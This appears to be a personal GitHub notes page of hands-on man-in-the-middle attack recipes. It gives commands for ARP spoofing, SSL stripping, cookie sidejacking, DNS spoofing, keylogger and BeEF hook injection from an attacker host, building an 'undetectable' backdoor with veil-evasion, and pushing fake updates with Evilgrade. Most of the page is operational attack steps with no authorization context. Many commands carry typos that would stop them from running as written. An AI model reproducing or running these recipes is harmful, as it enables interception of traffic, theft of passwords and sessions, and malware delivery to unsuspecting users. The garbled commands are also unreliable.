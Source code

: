 # Main In The Middle Attacks

### ARP Poisoning

This is one of the most dangerous and effective attacks that can be used to *redirect packets to and from any client to our device* and since we have the network key, we can read/modify/drop the packets. This allows us to launch very powerful attacks. It's very hard to protect against it as it exploits the insecure way that ARP works.

ARP security issues:
- Each ARP request/response is trusted.
- Clients can accept responses even if they did not send request.

**ARPSPOOF**

Arpspoof is a tool part of a suit called dnsiff, which contains a number of network penetration tools. Arpspoof can be used to launch a MITM and redirect traffic to flow through our device.

1. Command tell the  target client that I am the router.
```
arpspoof -i [interface] -t [target IP] [AP IP]
Ex: arpsoof -i wlan0 -t 192.168.1.5 192.168.1.1
````

2. Command tell the AP that I am the target client.
```
aprspoof -i [interface] -t [AP IP][target IP]
Ex: arpsoof -i wlan0 -t 192.168.1.1 192.168.1.5
```

3. Enable IP forward to allow packets to flow through our device without being dropped.
`echo 1> /proc/sys/net/ipv4/ip_froward`

## MAN IN THE MIDDLE FRAMEWORK (MITMf)

MITMf is a framework that allows to launch a number of MITM attacks. MITMf also starts SSLstrip automatically to bypass HTTPS/SSL.

```
mitmf-arp-spoof-gateway [GATEWAY IP] --targets [TARGET IPs] -i [interface]
Ex: mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 - eth0/wlan0
```

`echo 1 > /proc/sys/net/ipv4/ip_forward`

If you get error like `Import Error: No module named bdfactory` then you have to install first **the-backdoor-factory** module.

`https://github.com/secretsquirrel/the-backdoor-factory`

`apt-get update`
`apt-get install backdoor-factory`

If you get this error agian then you have to install manually.

```
git clone https://github.com/secretsquirrel/the-backdoor-factory.git
mkdir /usr/share/mitmf/bdfactory
cd the-backdoor-factory
cp -r ./* /usr/share/mitmf/bdfactory/ 
cd /usr/share/mitmf/bdfactory
./install.sh
```

If the error is not fixid then remove *FilePwn.py* file.

`rm usr/share/mitmf/plugins/FilePwn.py`

### Bypassing HTTPS

Most of the website use https in their registration pages. These pages are validated using an SSL certificate and there for will show a warning to the user that the certificate is valid. SSLstrip is a tool that can be used to downgrade HTTPs requests to HTTP allowing us to sniff passwords without displaying a warning to the user.

*Note: MITMf starts SSLstrip.*

### Session Hijacking

If the user uses this feature the authentication happens using the cookies and not the user and password. So instead of sniffing the password we can sniff the cookies and inject them into our browser, this will allows us to login to the user's account without using the password.

`apt-get intall ferret-sidejack`

`ferret -i [interface]`

`hamster`

### DNS Spoofing

DNS Spoofing allows us to redirect any request to a certain domain to another domain. We have to run Apache server.

`service apache2 start`

1. Edit DNS settings.

`leafpad /etc/mitmf/mitmf.conf`

2. Run ettercap to arp poison target (s) and enable the dns_spoof plugin.

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --dns
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --dns
```

### Capturing Screen of Target & Injecting a Keylogger

Default Interval 10s
```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --screen
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --screen

mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --screen --interval 5
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --screen --interval 5
```

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --jskeylogger
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --jskeylogger
```

Note: If you get *AttributeError: ClientRequest instance has no attribute 'headers'* this error then you have to install *twisted* python module.

`pip install Twisted==15.5.0`

## Beef Framework

Browser Exploitation Framework allowing us to launch a number of attacks on a hooked target. Target are hooked once they load a hook url.

- DNS spoof requests to a page containing a hook
- Inject the hook in browser pages (need to be MITM)

### Hooking Clients To Beef & Stealing Passwords

First run **Beef** tools. Its a default penetration tool. Login hook. Its username and password is beef.

Then we will **mitmf** using this command:

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --inject --js-url http://
mitmf --arp --spoof --gateway 10.20.14.1 --target 10.20.14.216 -i wlan0 --inject --js-url http://10.20.14.203:3000/hook.js
```

## WIRESHARK

Wireshark is a network protocol analyser tool. Designed to help network administrators to keep track of what is happening in their network. Its not designed for hackers or hacking but a hacker knows how to use network tools for there own purpose.

How it works?

- Logs packets that flow through the selected interface.
- Analyse all the packets.

*When we are the MITM, Wireshark can be used to sniff and analyse traffic sent/received by targets.*

## Generating An Undetectable Backdoor

- Install veil-evasion			`apt-get install veil-evasion`
- Run veil-evasion				`veil`
- Select a backdoor / payload	`use [payload number]`
- Set options					`set [option] [value]`
- Generate Backdoor				`generate`

## CREATE A FAKE UPDATE

- Fake an update for an already installed program.
- Install backdoor instead of the update.
- Requires DNS spoofing + Evilgrade (a server to server the update).

1. Download and install Evilgrade using the instructions in the resources.

`git clone https://github.com/infobyte/evilgrade.git`

2. Start evilgrade.

`evilgrade`

3. Check program then can be hijacked.

`show modules`

4. Select one.

`configure [module]`

5. Set backdoor location.

`set agent [agent location]`

6. Start server

`start`

7. Start DNS spoofing and handler.
